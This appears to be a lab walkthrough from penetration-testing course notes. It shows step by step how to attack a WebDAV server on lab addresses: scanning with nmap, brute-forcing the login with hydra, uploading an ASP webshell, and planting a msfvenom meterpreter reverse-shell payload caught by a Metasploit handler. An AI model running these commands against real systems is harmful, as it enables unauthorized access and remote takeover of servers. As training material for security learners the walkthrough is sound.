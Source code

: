 #### Lab

**Host scan**

```bash
john@attack> nmap 10.3.19.124 -A
john@attack> nmap 10.3.19.124 -p 80 -sV --script http-enum
```

<figure><img src="../../.gitbook/assets/43.png" alt=""><figcaption></figcaption></figure>

**Brute-force login**

```bash
john@attack> hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt 10.3.19.124 http-get /webdav/
```

**WebDAV permissions with davtest**

```bash
john@attack> davtest -auth bob:password_123321 -url http://10.3.19.124/webdav/
```

**File upload with cadaver**

```bash
john@attack> cadaver http://10.3.19.124/webdav/
        dav> put /usr/share/webshells/asp/webshell.asp
```

<figure><img src="../../.gitbook/assets/44.png" alt=""><figcaption></figcaption></figure>

### Exploiting WebDAV with Metasploit

```
john@attack> nmap 10.3.21.151 --script=http-enum -p 80
```

**First method**

```bash
john@attack> msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.20.2 LPORT=1234 -f asp > shell.asp
john@attack> cadaver http://10.3.21.151/webdav/ # bob:password_123321

dav:/webdav/> put shell.asp
dav:/webdav/> exit

john@attack> msfconsole

msf6> use mutli/handler
msf6> set payload windows/meterpreter/reverse_tcp
msf6> set lhost 10.10.20.2
msf6> set lport 1234
msf6> run

meterpreter> cat c:\\flag.txt
```

